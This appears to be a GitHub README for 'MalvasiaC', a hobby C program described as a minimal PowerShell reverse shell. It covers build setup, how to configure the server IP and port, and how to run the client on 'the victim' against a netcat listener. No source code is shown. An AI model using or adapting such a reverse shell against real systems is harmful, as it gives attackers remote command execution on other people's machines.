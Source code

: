 # MalvasiaC
## C classic (minimal) reverse powershell
![Alt text](./screen.png)
This is a sample Powershell reverse shell, coded just for fun, keeping the stuff as simple as possible, considering my limited knowledge in C. Indeed the logo is much more cool than the program logic 😁

### Requirements
- This software has been coded on Windows using Visual Studio Code
- Follow the instruction [here](https://code.visualstudio.com/docs/languages/cpp) to get up & running
  - The compiling tasks require you have <b>MySys64-GCC</b> in the following location: "C:\msys64\ucrt64\bin\gcc.exe"
- Add the <b>-lws2_32</b> parameter to the compiler task [file](./.vscode/tasks.json)
- Powershell must be present on the client machine (AKA the victim)

### Configuration
You can hardcode the server IP and port around [line 12](./malvasia.c)
```c
char *CLIENT_IP = "127.0.0.1";
int CLIENT_PORT = 1234;
``` 
Eventually you can pass these values as parameters
```
.\malvasia.exe 127.0.0.1 1234
```

#### In action
![Alt text](./screen2.png)
1. Run the server (in this case using netcat)
2. Execute the client - this software (AKA the malware) - passing the server IP and port
3. Have fun running some powershell commands

